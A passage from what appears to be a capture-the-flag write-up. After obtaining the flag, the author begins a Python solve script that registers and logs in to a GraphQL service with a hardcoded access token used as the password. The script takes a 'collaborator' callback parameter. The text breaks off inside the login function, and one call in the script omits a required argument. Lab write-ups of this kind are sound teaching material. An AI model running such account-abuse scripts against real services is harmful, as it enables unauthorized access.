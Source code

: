 > As we see we managed to get the Flag!
> 

Now let’s try to script our solution.

```python
{% raw %}
import requests
import argparse
import sys
import re
import base64
from requests_toolbelt.multipart.encoder import MultipartEncoder

ACCESS_TOKEN = "ADMININV123"

def register(base_url: str, email: str, access_token: str, collaborator: str):
    url = base_url.strip('/') + "/graphql"
    data = {
        "query": f"""
        mutation {{
          register(email: "{email}", password: "{access_token}") {{
            id
            email
            role
            verified
          }}
        }}
        """
    }

    try:
        res = requests.post(url, json=data, timeout=10)
        res.raise_for_status()
    except requests.RequestException as e:
        print(f"[-] Request failed: {e}")
        sys.exit(1)

    json_response = res.json()
    if "data" in json_response and "register" in json_response["data"]:
        print("[+] Successfully registered new user: ", json_response["data"]["register"])
        login(base_url,email,access_token,collaborator)
    else:
        print("[-] Registration failed:", json_response)
        print("[!] May the user exists will try to login")
        login(base_url,email,access_token)

def login(base_url: str,email: str, access_token: str, collaborator: str):
    url = base_url.strip('/') + "/graphql"
    data = {
        "query": f"""
        mutation {{
          login(email: "{email}", password: "{access_token}") {{
            id
            email
            role
            verified
          }}
        }}
        """
    }
    try:
        session = requests.Session()
        res = session.post(url, json=data, timeout=10)
        res.raise_for_status()
```